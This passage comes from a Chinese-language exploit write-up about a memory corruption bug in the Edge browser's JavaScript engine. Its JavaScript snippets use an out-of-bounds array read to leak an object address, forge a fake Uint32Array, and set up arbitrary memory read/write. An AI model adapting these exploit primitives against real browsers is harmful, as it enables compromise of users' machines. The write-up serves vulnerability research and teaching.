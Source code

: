 使用arrint[0xc00]越界就可以获取到buffer1对象地址0x186-e96a5300低4字节。 

[![](https://p2.ssl.qhimg.com/t01b547c7a1f0ea88fb.jpg)](https://p2.ssl.qhimg.com/t01b547c7a1f0ea88fb.jpg)

[![](https://p5.ssl.qhimg.com/t01699c1d02f5e55176.jpg)](https://p5.ssl.qhimg.com/t01699c1d02f5e55176.jpg)



```
uint32[0]=arrint[0xc00];
index=uint32[0];
//中间使用unit32[0]是用来做符号转换的，index就是buffer1对象的地址低4字节。因为seg.next指向view2+0x28,view2+0x28的值为buffer1,所以下一个seg的seg.left就是buffer1的低4字节，这个段的索引号就是从index开始。
```

Seg的头长度0x18，后面接的是具体数组数据，这样0x28+0x18=0x40，view2对象的长度是0x40，这时候seg的数组数据区域就刚好指向下一个view对象0x186`e9800dc0，可能是紧挨着的view1或者view3。



```
//通过越界读复制view1或者view3 对象的0x40字节到view4 的buff 区域
for(var i=0;i&lt;0x10;i++) view4[i]=arrint[index+i];
//恢复segment.next
write(0x0d,0x0001000,0x100000,0);
write(0x0c,0x0001000,0x100000,0);
```

View4对象内存如下，View4的buffer地址为0x17e-e425ae40，现在这个已经是我们伪造出来的myview的结构体部分

[![](https://p2.ssl.qhimg.com/t0154a823238495727a.jpg)](https://p2.ssl.qhimg.com/t0154a823238495727a.jpg)

myview 的内存布局如下：

[![](https://p4.ssl.qhimg.com/t01b27c128059f90426.jpg)](https://p4.ssl.qhimg.com/t01b27c128059f90426.jpg)



```
arrint[0xc04]=view4[0x0e];
arrint[0xc05]=view4[0x0f];
// view4[0xe]和view4[0x0f]对应的就是view4引用的buffer1对象的数据缓冲区，也就是伪造的myview对象的地址，取出来保存到arrvar[2]位置。这样就把伪造的view对象通过arrvar[2]做对象引出，可以JS直接引用。
myview=arrvar[2];
`}`
```

得到了需要的伪造的TypedArray对象myview，整个对象结构体在view4里，可以通过view4去修改。myview 的内存布局如下：<br>

[![](https://p4.ssl.qhimg.com/t01b27c128059f90426.jpg)](https://p4.ssl.qhimg.com/t01b27c128059f90426.jpg)

myview是Uint32Array对象,结构体中存了一个64位数组数据缓冲区指针，我们已经具备了修改这个对象结构的能力，那么我们可以通过修改这个指针，通过类型数组做到任意地址读写。

5）此时myview 便伪造成功，由于myview 整个都在view4 的buff 空间中，所以view4 可以对myview 进行任意读写，而此时myview 也被edge 识别为Uint32Array 对象类型。即可实现任意读写，代码如下：

